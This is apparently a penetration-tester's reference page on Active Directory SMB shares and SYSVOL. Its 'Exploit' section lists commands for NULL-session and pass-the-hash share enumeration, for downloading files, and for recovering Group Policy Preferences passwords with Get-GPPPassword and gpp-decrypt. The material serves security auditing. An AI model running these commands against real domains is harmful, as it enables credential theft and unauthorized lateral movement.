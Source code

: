 # Active Directory - Shares

### Overview

In a Windows environment, the Server Message Block (SMB) protocol is used to
share folders and files between computers.  
The SYSVOL folder, accessible on all Domain Controller to all authenticated
users, should be carefully reviewed for sensible information (notably the GPP
data).
Some content may be accessible to unauthenticated users (NULL session or
GUEST) and can be a way to gain authenticated access to the Domain.

###### SMB

The Server Message Block (SMB) protocol, one version of which was also known as
Common Internet File System (CIFS), is an application-layer network protocol
used for providing shared access to files, printers, and serial ports and
miscellaneous communications between nodes on a network. It also provides an
authenticated inter-process communication mechanism. Most usage of SMB involves
computers running Microsoft Windows.

###### Group Policy

Group Policy is a feature of the Microsoft Windows NT family of operating
systems that controls the working environment of user accounts and computer
accounts. Group Policy provides centralized management and configuration of
operating systems, applications, and users' settings in an Active Directory
environment. A version of Group Policy called Local Group Policy ("LGPO" or
"LocalGPO") also allows Group Policy Object management on standalone and
non-domain computers.

Two kinds of Group Policy exist : Group Policy Object (GPO) and Group Policy
Preferences (GPP).  
One of the most useful features of Group Policy Preferences
(GPP) is the ability to store and use credentials in several scenarios (local
user creation, map drives, etc.). When a new GPP is created, an associated XML
file is created in SYSVOL with the relevant configuration data and if a password
is provided, it is AES-256 bit encrypted. Microsoft published the AES private
key which can be used to decrypt the password. Since authenticated users
(any domain user or users in a trusted domain) have read access to SYSVOL,
anyone in the domain can search the SYSVOL share for XML files containing
“cpassword” which is the value that contains the AES encrypted password.
There are a few more differences between the two, for additional details refer
to the following article http://techgenix.com/policies-vs-preferences/.

###### SYSVOL

SYSVOL is the domain-wide share in Active Directory to which all authenticated
users have read access. SYSVOL contains logon scripts, group policy data, and
other domain-wide data which needs to be available anywhere there is a Domain
Controller (since SYSVOL is automatically synchronized and shared among all
Domain Controllers).

In addition to the GPP data potentially containing password, more sensible
information can be stored in the SYSVOL folder and its content should be
reviewed.

### Exploit

#### Find shares

To find exposed shares on the network, the following tools can be used:

```
# SYSVOL
\\<DOMAIN>\SYSVOL\

nmap --script smb-enum-shares.nse -p 445 <TARGETS>
```

#### Enumerate shared content

To list the shares accessible on a computer the following commands can be used:

```
# Linux
smbclient -L '' //'<HOSTNAME/IP>'/ -U''%'' -c dir
python nullinux.py -shares <HOSTNAME/IP>
python nullinux.py -u '<DOMAIN>\<USERNAME>' -p '<PASSWORD>' -shares <HOSTNAME/IP>
enum4linux.pl -v -S <HOSTNAME/IP>
enum4linux.pl -v -u '<DOMAIN>\<USERNAME>' -p '<PASSWORD>' -S <HOSTNAME/IP>
```

To access shares from windows and Linux:

```
# Windows
net use <DRIVELETTER>: \\<HOSTNAME/IP>\<SHARE> "" /user:"" # NULL session
net use <DRIVELETTER>: \\<HOSTNAME/IP>\<SHARE> /user:"<DOMAIN>\<USERNAME>"

# Linux
smbclient -W '' //'<HOSTNAME/IP>'/<SHARE> -U''%'' # NULL session
smbclient -W '' //'<HOSTNAME/IP>'/<SHARE> -U'<DOMAIN>\<USERNAME>'%'<PASSWORD>'
```

To list and access shares using PtH:

```
# List
crackmapexec <TARGET> -d <DOMAIN> -u <USERNAME> -H <HASH> --shares

# Spider share
crackmapexec <TARGET> -d <DOMAIN> -u <USERNAME> -H <HASH> -shares <SHARE> --spider
python smbmap.py -H <HOSTNAME/IP> -d <DOMAIN> -u <USERNAME> -p <HASH> -R

# Download file
python smbmap.py -H <HOSTNAME/IP> -d <DOMAIN> -u <USERNAME> -p <HASH> -R -A <FILENAME>
```

#### Search sensible information

###### Group Policy Preferences (GPP)

GPP may contain passwords and the data stored in the SYSVOL folder should be
reviewed.  

The Get-GPPPassword PowerSploit cmdlet searches a domain controller for
groups.xml, scheduledtasks.xml, services.xml and datasources.xml and returns
plaintext passwords:

```
Get-GPPPassword
Get-GPPPassword -Server <DC>
```

To manually search for passwords in GPP, the Agent Ransack file searching tool
can be used to grep for the 'cpassword' keyword.

To decrypt a GPP password, the gpp-password tool can be used:

```
gpp-decrypt <ENC_PASSWORD>
```

###### Credentials

Use the Agent Ransack file searching tool to grep for the 'PASS' regex and
manually review the result.
Active Directory account, local account and MSSQL sa account can be used to
gain an initial foothold on the Domain or to move horizontally/laterally.
